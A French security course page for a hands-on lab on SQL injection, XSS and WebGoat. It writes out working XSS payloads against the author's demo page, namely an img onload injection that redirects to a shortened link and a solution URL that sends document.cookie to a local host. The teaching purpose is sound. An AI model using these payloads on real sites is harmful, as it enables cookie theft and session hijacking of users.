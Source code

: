 ```yaml
---
description: Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de
---
```


# TP Sécurité

Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de …

- Passer des heures sur de la théorie ?
- Passer des heures sur du code à vous ?
- Passer des heures à tenter des intrusions ?
- La réponse D ?

## Partie 1 : Les injections SQL

Avant d'utiliser WebGoat, nous allons nous focaliser sur la partie Injection SQL, pour ça nous allons utiliser le site [Hack Splaining](https://www.hacksplaining.com/exercises/sql-injection).

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe d’injections SQL.

## Partie 2 : Les XSS

Voilà un exemple simple de XSS via un input non filtré.

<Sample src="xss" />

::: danger Quoi faire ?

Ici, l'idée, est de trouver comment éxécuter du code via un simple chargement d'image ! Pour ça il faut connaître un peu le HTML et le fonctionnement des balises classique.

Une balise img, vous conaissez… Elle prend en paramètre un attribut `src`… ok ! Mais elle a également un autre attribut … nommé … `onload` cet attribut permet d'éxécuter du code quand la ressource (l'image) est chargé. Nous allons donc exploiter un code « mal écrit » pour charger du code JavaScript.

Pour ça, dans le champs de saisie, je vous propose de mettre:

```
https://fakeimg.pl/300/" onload="alert('Coucou'); window.location='https://bit.ly/3Bpiela'"
```

Que-ce passe-t-il ? Pourquoi ? Regardons le code source ensemble !

:::

### 2.1 Exploiter la faille

En partant du code précédent, afficher dans la page un formulaire en exploitant la faille `onload` du code fourni.

### 2.1 La même chose mais par lien…

Vous l'avez peut-être remarqué, dans le code JavaScript il est également possible de spécifier une image. Par exemple il est possible d'écrire un lien :

- [https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/)

Ce lien est source **d'un très grand danger**, je vous propose de réfléchir à comment il serait possible d'exploiter « le paramètre uri » afin de lui donner de détourner le comportement du site.

- Trouver un moyer de réaliser la même attaque que le code précédent (point 2.0).
- Envoyer le lien à une autre personne.
- Lire des données sur son ordinateur (nous allons le faire ensemble).

C'est à vous (enfin à nous).

::: details Solution

- [Exemple de solution (injection via lien)](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22alert(%27Coucou%27);%20window.location=%27<https://bit.ly/3Bpiela%27%22>)

- [Exemple de vol de cookie](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22document.body.insertAdjacentHTML(%27beforeend%27,%20`%3Clink%20rel=%27stylesheet%27%20href=%27<http://localhost:8888/?v=${document.cookie}%27%20/%3E>`)%22)

Étudier le code JavaScript et le code HTML généré, pourquoi ça ne fonctionne pas ?

:::

## Partie 2.1 : Les XSS

Pour mieux comprendre l'aspect dangereux d'une XSS nous allons utiliser Hack Splaining, pour ça rendez-vous sur [Hack Splaining](https://www.hacksplaining.com/exercises/xss-stored)

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe de XSS.

## Partie 3 : WebGoat

![Superbe Logo](./webgoat.png)

WebGoat est un outil didactique aux dimensions pédagogiques proposé par le groupe OWASP. Il s'agit d'une application WEB J2EE développée en Java et destinée à l'enseignement de manière interactive.

Elle vise à familiariser l'utilisateur aux technologies WEB (E.g: protocole HTTP, Encoding, AJAX), aux mécanismes du protocole HTTP et aux vulnérabilités qui peuvent en découler. Cet enseignement se fait au travers de différentes leçons, chacune abordant un concept particulier, détaillant un problème de sécurité donné avant de soumettre l'utilisateur à une mise en pratique immédiate. Chaque leçon (JSP) présente sur l'application comporte une vulnérabilité que l'utilisateur peut identifier et tenter d'exploiter (E.g: Injection SQL permettant de retrouver de fausses informations comme des numéros de cartes de crédit).

Voilà une liste des éléments que nous allons pouvoir « exploiter » dans WebGoat :

- Flux des contrôles d'accès et authentification
- Flux de gestion de session utilisateur
- Cross-Site Scripting (XSS)
- Injections
- Parameter and Data Tampering
- Buffer Overflows
- Configuration et stockage de données (non sécurisée)
- Sécurité AJAX

Nous n’allons bien évidemment pas tous les faire, l’idée est d’en faire quelques-uns et si vous le souhaitez vous pourrez approfondir le sujet.

![](./webgoat-dom-injection-700x407.png)

## Téléchargement

Deux versions existent :

- Le jar
- Un containeur Docker

Nous allons choisir la version Docker :

## Lancement

```sh
docker run -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/webgoat
```

C’est parti, vous pouvez maintenant aller sur [http://127.0.0.1:8080/WebGoat](http://127.0.0.1:8080/WebGoat)

⚠️ Nous allons utiliser un outil intégrant des failles… Pour éviter tout risque pour votre machine, le mieux est de couper l’accès au réseau de votre ordinateur. ⚠️

## À faire

- AJAX Security
  - LAB: Client Side Filtering
  - LAB: DOM-Based cross-site scripting
  - Dangerous Use of Eval
- Concurrency
  - Thread Safety Problems
  - Shopping Cart Concurrency Flaw
- Injection Flaws
  - Command Injection (si vous souhaitez faire du MITM - Man In The Middle -)
  - Numeric SQL Injection
  - String SQL Injection
- Parameter Tampering
  - Exploit Hidden Fields
